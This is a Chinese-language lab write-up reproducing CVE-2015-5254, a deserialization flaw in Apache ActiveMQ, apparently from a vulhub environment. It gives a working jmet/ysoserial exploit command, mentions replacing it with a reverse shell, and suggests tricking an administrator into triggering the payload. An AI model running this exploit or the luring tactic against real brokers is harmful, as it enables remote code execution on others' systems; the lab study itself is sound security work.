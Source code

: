 ```yaml
---
title: "（CVE-2015-5254）ActiveMQ 反序列化漏洞"
id: zhfly2800
---
```


# （CVE-2015-5254）ActiveMQ 反序列化漏洞

## 一、漏洞简介

Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java Message Service(JMS)ObjectMessage对象利用该漏洞执行任意代码。

## 二、漏洞影响

Apache ActiveMQ 5.13.0之前的5.x版本

## 三、复现过程

漏洞利用过程如下：

1.  构造（可以使用ysoserial）可执行命令的序列化对象
2.  作为一个消息，发送给目标61616端口
3.  访问web管理页面，读取消息，触发漏洞

使用[jmet](https://github.com/ianxtianxt/jmet)进行漏洞利用。首先下载jmet的jar文件，并在同目录下创建一个external文件夹（否则可能会爆文件夹不存在的错误）。

jmet原理是使用ysoserial生成Payload并发送（其jar内自带ysoserial，无需再自己下载），所以我们需要在ysoserial是gadget中选择一个可以使用的，比如ROME。

执行：

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616 
```

![image](../img/c20d9a1e7d2015b6c24574dde28fcf54.png)

此时会给目标ActiveMQ添加一个名为event的队列，我们可以通过`http://your-ip:8161/admin/browse.jsp?JMSDestination=event`看到这个队列中所有消息：

![image](../img/1a4d3b3d48c49d11126c045bfdf1d470.png)

点击查看这条消息即可触发命令执行，此时进入容器`docker-compose exec activemq bash`，可见/tmp/success已成功创建，说明漏洞利用成功：

![image](../img/ac0d403e8d06368e45ff89daa9431aff.png)

将命令替换成弹shell语句再利用：

![image](../img/bdca1ff0222f8e1d12b4b36ee75e500b.png)

值得注意的是，通过web管理页面访问消息并触发漏洞这个过程需要管理员权限。在没有密码的情况下，我们可以诱导管理员访问我们的链接以触发，或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发。

## 参考链接

> https://vulhub.org/#/environments/activemq/CVE-2015-5254/